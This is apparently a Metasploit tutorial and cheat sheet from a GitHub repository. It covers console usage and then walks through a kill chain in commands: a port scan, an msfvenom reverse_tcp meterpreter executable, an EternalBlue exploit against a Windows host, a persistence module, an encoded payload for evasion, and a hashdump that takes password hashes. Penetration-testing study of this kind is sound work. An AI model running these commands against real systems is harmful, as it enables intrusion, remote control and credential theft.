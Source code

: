 ## Workflow:
1. To start Metasploit shell: `msfconsole`

2. A shell will be open: `msf6` along with all available Modules.

3. Search a module to use `search type:keywork`
- to navigate to modules `back`

4. To interact with a module `info 23, use 23 or use auxiliary/scanner/portscan/tcp `

5. Once selected `auxiliary(scanner/portscan/tcp)`
In Case of `Exploit` Module, we can set a payload too.
- To check available payloads for current Exploit Module `show payload`
- Select a payload `set payload_name or Number`

6. Check Options `show options` or full info with `info`

7. Set the Parameters Lhost/Rhost/Ports etc `set Lhost x.x.x.x`

8. Run the module `run` or `exploit`

## Note: TO SAVE the Output:
```
spool /path/to/output_file.txt
run
spool off
```

---
---

# Practical Example Workflow:
## Reconnaissance:
```
Load auxiliary module: use auxiliary/scanner/portscan/tcp
Set RHOSTS: set RHOSTS 192.168.1.100
Run the scan: run
```

## Weaponization:
```
Generate payload: msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=4444 -f exe -o shell.exe
```

## Delivery:
```
Load exploit module: use exploit/windows/smb/ms17_010_eternalblue
Set payload: set payload windows/meterpreter/reverse_tcp
Set RHOST: set RHOST 192.168.1.100
Run the exploit: run
```

## Exploitation:
```
Meterpreter session opened (assuming successful exploitation).
```

## Installation:
```
Load post-exploitation module: use post/windows/manage/persistence
Set session: set SESSION 1
Run the module: run
```

## Command and Control (C2):
```
Encode payload: msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=4444 -e x86/shikata_ga_nai -f exe -o encoded_shell.exe
```

## Actions on Objectives:
```
Load post-exploitation module: use post/windows/gather/hashdump
Set session: set SESSION 1
Run the module: run
```

---
---

## Cheatsheet:
![image](https://github.com/IOxCyber/CyberEssentials/assets/40174034/7835180f-7295-4337-8f81-8bb23c35f14c)
